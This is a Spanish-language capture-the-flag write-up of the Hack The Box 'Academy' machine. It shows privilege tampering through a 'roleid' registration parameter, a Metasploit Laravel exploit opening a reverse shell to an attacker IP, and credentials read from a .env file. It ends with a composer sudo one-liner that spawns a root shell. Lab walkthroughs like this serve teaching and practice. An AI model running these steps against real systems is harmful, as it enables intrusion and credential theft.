 ```yaml
---
layout      : post
title       : "Academy - HackTheBox"
author      : elc4br4
image       : assets/images/HTB/Academy-HackTheBox/Academy.webp
category    : [ htb ]
tags        : [ Linux ]
---
```


En esta ocasión vamos a resolver una máquina Linux de nivel Easy en la que tocaremos un poco de Laravel, logs y escalaremos privilegios a través de un binario⚡

![](/assets/images/HTB/Academy-HackTheBox/rating-academy.png)

[![HTBadge](https://www.hackthebox.eu/badge/image/533771)](https://www.hackthebox.com/home/users/profile/533771)

# Reconocimiento de Puertos

```bash
PORT   STATE SERVICE    VERSION
22/tcp open  tcpwrapped
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open  tcpwrapped
|_http-title: Did not follow redirect to http://academy.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
3060/tcp open  mysqlx?
| fingerprint-strings: 
|   DNSStatusRequestTCP, LDAPSearchReq, NotesRPC, SSLSessionReq, TLSSessionReq
``` 



El escaneo nmap revela que tenemos un Servidor OpenSSH corriendo en el puerto 22.
También revela que tenemos el puerto 80 abierto en el cual corre un servidor Apache con una web bajo el nombre de "Hack The Box Academy".
Además tenemos el puerto 33060 en el cual corre un servidor MySQL.


# Enumeración Web

Al acceder a la web a través de la ip nos redirige a http://academy.htb, que lo añadiremos al archivo hosts


`` sudo echo "10.10.10.215 academy.htb" >> /etc/hosts ``


Una vez lo añadimos ya podemos acceder a la web.


![](/assets/images/HTB/Academy-HackTheBox/web.png)


Encuentro la opción Register en la que me creo una cuenta, una vez creada me encuentro con el panel en el que se ubican los modulos de HTB Academy, pero anda que pueda aprovechar.

![](/assets/images/HTB/Academy-HackTheBox/web2.png)


Pr lo tanto vuelvo hacia atrás y decido capturar la petición de registro con BurpSuite.

![](/assets/images/HTB/Academy-HackTheBox/burp1.png)


```burp
POST /register.php HTTP/1.1
Host: academy.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://academy.htb/register.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Origin: http://academy.htb
DNT: 1
Connection: close
Cookie: PHPSESSID=2qamfqs6cs7r1bsu9jktbf3hsu
Upgrade-Insecure-Requests: 1


uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=0
```

Si nos fijamos tenemos el parámetro `roleid`, que está fijado en 0, pero si lo cambiamos podemos ver si ocurre algo


```burp
uid=elc4br4&password=elc4br4&confirm=elc4br4&roleid=1
```

Si cambiamos el parámetro, enviamos la respuesta y abrimos la url [http://academy.htb/admin.php](http://academy.htb/admin.php) y nos logueamos con la cuenta que hemos creado y accedemos a la web como admin.

Encontramos cosas interesantes... 🤗

![](/assets/images/HTB/Academy-HackTheBox/web3.png)


``Complete initial set of modules (cry0l1t3 / mrb3n)``  --> Dos posibles usuarios

``Fix issue with dev-staging-01.academy.htb`` --> otro host

> Añadimos el host a al archivo hosts


`` sudo echo "10.10.10.215 dev-staging-01.academy.htb" >> /etc/hosts ``


Accedemos y encontramos un montón de errores.

![](/assets/images/HTB/Academy-HackTheBox/web4.png)


![](/assets/images/HTB/Academy-HackTheBox/web5.png)


Si nos fijamos bien veremos que aparece en mcuhas ocasiones la palabra `laravel`

Buscando exploits para PHP Laravel encuentro esto

``PHP Laravel Framework 5.5.40 / 5.6.x < 5.6.30 - token Unserialize Remote Command Execution (Metasploit)                               | linux/remote/47129.rb``

Abro metasploit y procedo a configurar y lanzar el exploit

![](/assets/images/HTB/Academy-HackTheBox/metasploit.png)


Y lanzamos el exploit

```bash
msf6 exploit(unix/http/laravel_token_unserialize_exec) > exploit

[*] Started reverse TCP handler on 10.10.14.5:4441 
[*] Command shell session 1 opened (10.10.14.5:4441 -> 10.10.10.215:49452) at 2022-09-11 18:35:12 +0200
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
whoami
www-data
```

Tras enumerar durante un buen rato, encuentro en la ruta /var/www/html/academy/.env credenciales que podría servirnos para loguearnos a través de ssh.

```bash
www-data@academy:/var/www/html/academy$ cat .env
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0=
APP_DEBUG=false
APP_URL=http://localhost

LOG_CHANNEL=stack

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=academy
DB_USERNAME=dev
DB_PASSWORD=mySup3rP4s5w0rd!!
```

Probamos a loguearnos con el usuario cry0l1t3 que encontramos anteriormente en el servidor web.

`ssh cry0l1t3@10.10.10.215`

![](/assets/images/HTB/Academy-HackTheBox/user.png)


Si nos fijamos bien el usuario cry0l1t3 está dentro del grupo adm.


Realizando una breve búsqueda en internet encuentro la siguiente información

![](/assets/images/HTB/Academy-HackTheBox/escaladavertical.png)

Leemos los logs en busca de información y encuentro data en hexadcimal que voy decodeando poco a poco, hasta que encuentro una posible contraseña del usuario mrb3n

![](/assets/images/HTB/Academy-HackTheBox/hexadecimal.png)


```bash
$ su mrb3n 
Password: 
$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
$ whoami
mrb3n
```

A continuación ya debemos intentar escalar al usuario root, comenzando por la búsqueda de posibles vectores de escalada, entre ellos pruebo con `sudo -l`

![](/assets/images/HTB/Academy-HackTheBox/escaladaroot.png)


Como vemos tenemos el binario composer que podemos ejecutar como root.

Como de costumbre me dirijo a la siguiente fuente:

[https://gtfobins.github.io/gtfobins/composer/](https://gtfobins.github.io/gtfobins/composer/)

![](/assets/images/HTB/Academy-HackTheBox/gtfobins.png)

EJECUTAMOS LO SIGUIENTE 

```bash
$ TF=$(mktemp -d)
$ echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
$ sudo composer --working-dir=$TF run-script x
PHP Warning:  PHP Startup: Unable to load dynamic library 'mysqli.so' (tried: /usr/lib/php/20190902/mysqli.so (/usr/lib/php/20190902/mysqli.so: undefined symbol: mysqlnd_global_stats), /usr/lib/php/20190902/mysqli.so.so (/usr/lib/php/20190902/mysqli.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
# id
uid=0(root) gid=0(root) groups=0(root)
# whoami
root
```



